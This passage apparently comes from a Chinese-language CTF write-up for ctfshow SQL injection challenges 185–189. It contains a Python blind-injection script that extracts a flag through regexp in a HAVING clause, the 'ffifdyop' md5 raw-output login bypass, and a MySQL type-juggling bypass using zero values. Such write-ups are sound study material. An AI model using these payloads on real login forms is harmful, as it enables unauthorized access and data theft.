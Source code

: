 ```python
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp({d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      if j=='}':
        exit(0)
      break
```

## web 186

过滤了<>大于小于号，没有影响，上一题脚本还能跑

## web 187

```php
$password = md5($_POST['password'],true);
$sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
```
存在这样一个字符ffifdyop，在php的md5($pwd,true)函数的值是'or'6]!r,b ，可以利用md5值里的or绕过

直接登录admin  ffifdyop

f12打开开发工具，在网络界面可以看到api接口返回的json数据
{"code":0,"msg":"\u767b\u9646\u6210\u529f","count":0,"data":[{"flag":"ctfshow{fbe2b5d6-6f77-4396-a89d-f1ed168700ee}"}]}

## web 188

username=0,pwd=0登录。f12查看网络接口返响应回json数据

在查询语句里，username和传进来的username比较。在mysql里，字符和数字比较时，会把字符转化为0再和数字比较。得到一个0=0的判断，查出所有数据

```sql
$sql = "select pass from ctfshow_user where username = {$username}";
```

在密码验证这里

```php
//密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```
正确密码和整数密码比较，如果正确密码是字符串，那么要和intval($password)比较时也会作为0，那么intval($password)=0时可以绕过验证，所以密码也传0

## web 189
